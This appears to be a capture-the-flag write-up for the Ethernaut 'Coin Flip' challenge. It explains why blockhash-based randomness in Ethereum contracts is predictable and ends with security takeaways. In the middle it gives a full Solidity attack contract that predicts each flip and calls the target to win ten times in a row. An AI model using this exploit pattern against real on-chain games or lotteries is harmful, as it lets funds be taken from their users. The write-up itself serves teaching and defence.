 # Level 3 : Coin Flip

Here after reading the contract and the advice : “Beyond the console”, we understand that we have to write smart contract.

When beginning the easiest thing to do is go to [remix.ethereum.org](http://remix.ethereum.org/).

First create a new file with name “contract.sol” per example

Create contract, check it with the compiler on the left tab

Deploy it : you have several choice to deploy it. The more important is the environment : where will you deploy it ?

If you are using Metamask use this configuration : 

![Untitled](Level%203%20Coin%20Flip%207fa649b4a3b846269c92f075c6fcfc45/Untitled.png)

And “voila” your smart contract is deployed on the network you are using.

Let’s get back to the challenge : 

First thing to know is that “**there is no true randomness on Ethereum Blockchain, only random generator considered good enough”** 

Developers currently create psuedo-randomness in Ethereum by hashing variables that are **unique**, or **difficult to tamper** with. Examples of such variables include `transaction timestamp`, `sender,address`, `block height`, etc.

Ethereum then offers two main cryptographic hashing functions, namely, SHA-3 and the newer KECCAK256, which hash the concatenation string of these input variables.

This generated hash is finally converted into a large integer, and then mod’ed by n. This is to get a discrete set of probability integers, inside the desired range of 0 to n. (here n =2 because of the two side of a coin)

**This method of deriving pseudo-randomness in smart contracts makes them vulnerable to attack. Adversaries who know the input,can thus guess the “random” outcome.**

This is the key to solving our `CoinFlip` level. Here, the input variables that determine the coin flip are publicly available to us.

1. Using Remix IDE create a malicious contract that mirrors CoinFlip.sol
2. Implement hackFlip() function that predicts the flip outcome. We know the blockhash and block.number so we are able to accurately predict the correct _guess.
3. Our function has to invoke the `originalContract.flip()` function with the correct `_guess`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import './Ilevel03.sol';

contract Hack {
    CoinFlip public originalContract = CoinFlip(0x85901236CC5247910ADa4445D6ECD32Ff13149f3); 
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function hackFlip(bool _guess) public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue/FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            originalContract.flip(_guess);
        } else {
            originalContract.flip(!_guess);
        }
    }
}
```

Remenber to create another file with CoinFlip contract copy/pasted

Then Using Remix IDE click 10 times on the hackFlip button

Check your result using `await contract.consecutivewins()` , inside the result array under `word` our wins are represented -> **0:10**

# **Key Security Takeaways**

- There’s no such thing as true randomness
- **Be careful when calculating “randomness” in your contract** (or even when inheriting from an existing random numbers library). In cases where you use randomness to determine contest winners, remember that **adversaries can easily guess the random outcome and hack your game!**